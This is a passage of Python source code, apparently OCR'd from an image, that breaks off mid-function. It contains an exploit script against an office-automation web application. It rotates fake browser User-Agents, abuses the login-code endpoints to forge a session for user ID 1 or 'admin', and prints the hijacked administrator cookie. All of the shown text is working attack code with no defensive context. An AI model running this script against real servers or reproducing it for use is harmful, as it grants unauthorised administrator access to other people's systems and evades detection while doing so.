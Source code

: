 ```
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.84 Safari/535.11 LBBROWSER",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
    "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; QQBrowser/7.0.3698.400)",
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; SV1; QQDownload 732; .NET4.0C; .NET4.0E; 360SE)",
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
    "Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1",
    "Mozilla/5.0 (iPad; U; CPU OS 4\_2\_1 like Mac OS X; zh-cn) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8C148 Safari/6533.18.5",
    "Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0b13pre) Gecko/20110307 Firefox/4.0b13pre",
    "Mozilla/5.0 (X11; Ubuntu; Linux x86\_64; rv:16.0) Gecko/20100101 Firefox/16.0",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11",
    "Mozilla/5.0 (X11; U; Linux x86\_64; zh-CN; rv:1.9.2.10) Gecko/20100922 Ubuntu/10.10 (maverick) Firefox/3.6.10"
\]
headers={}
def getV11Session(url):
    checkUrl = url+'/general/login\_code.php'
    try:
        headers\["User-Agent"\] = choice(USER\_AGENTS)
        res = requests.get(checkUrl,headers=headers)
        resText = str(res.text).split('{')
        codeUid = resText\[-1\].replace('}"}', '').replace('\\r\\n', '')
        getSessUrl = url+'/logincheck\_code.php'
        res = requests.post(
            getSessUrl, data={'CODEUID': '{'+codeUid+'}', 'UID': int(1)},headers=headers)
        tmp\_cookie = res.headers\['Set-Cookie'\]
        headers\["User-Agent"\] = choice(USER\_AGENTS)
        headers\["Cookie"\] = tmp\_cookie
        check\_available = requests.get(url + '/general/index.php',headers=headers)
        if '用户未登录' not in check\_available.text:
            if '重新登录' not in check\_available.text:
                print('\[+\]Get Available COOKIE:' + tmp\_cookie)
        else:
            print('\[-\]Something Wrong With ' + url + ',Maybe Not Vulnerable.')
    except:
        print('\[-\]Something Wrong With '+url)
def get2017Session(url):
    checkUrl = url+'/ispirit/login\_code.php'
    try:
        headers\["User-Agent"\] = choice(USER\_AGENTS)
        res = requests.get(checkUrl,headers=headers)
        resText = json.loads(res.text)
        codeUid = resText\['codeuid'\]
        codeScanUrl = url+'/general/login\_code\_scan.php'
        res = requests.post(codeScanUrl, data={'codeuid': codeUid, 'uid': int(
            1), 'source': 'pc', 'type': 'confirm', 'username': 'admin'},headers=headers)
        resText = json.loads(res.text)
        status = resText\['status'\]
        if status == str(1):
            getCodeUidUrl = url+'/ispirit/login\_code\_check.php?codeuid='+codeUid
            res = requests.get(getCodeUidUrl)
```